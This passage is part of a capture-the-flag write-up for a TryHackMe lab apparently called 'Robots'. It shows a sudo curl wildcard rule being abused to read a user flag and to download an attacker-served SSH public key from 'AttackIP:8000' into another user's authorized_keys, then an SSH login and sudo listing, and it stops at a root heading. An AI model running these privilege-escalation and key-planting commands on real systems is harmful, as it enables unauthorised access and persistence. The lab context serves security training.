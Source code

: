 <h3>Dolival data</h3>
<h4>/usr/bin/burl 127.0.0.1/*</h4>

```bash
rgiskard@ubuntu-jammy:~$ sudo -u dolivaw /usr/bin/curl 127.0.0.1/ file:///home/dolivaw/user.txt
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.61 (Debian) Server at 127.0.0.1 Port 80</address>
</body></html>
THM{REDACTED}
```
 
<h4>Generate Key</h4>

```bash
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in id_rsa
Your public key has been saved in id_rsa.pub
The key fingerprint is:
...
```

<h4>Transfer Key</h4>

```bash
:~/Robots/exfil# python3 -m http.server
```

<h4>/usr/bin/burl 127.0.0.1/*</h4>

```bash
rgiskard@ubuntu-jammy:~$ sudo -u dolivaw /usr/bin/curl 127.0.0.1/ http://AttackIP:8000/id_rsa.pub -o /tmp -o /home/dolivaw/.ssh/authorized_keys
```

<h4>ssh | dolivaw</h4>

```bash
:~/Robots/exfil# ssh -i id_rsa dolivaw@robots.thm
dolivaw@ubuntu-jammy:~$ sudo -l
Matching Defaults entries for dolivaw on ubuntu-jammy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dolivaw may run the following commands on ubuntu-jammy:
    (ALL) NOPASSWD: /usr/sbin/apache2 
```

<h4>Root´s data</h4>
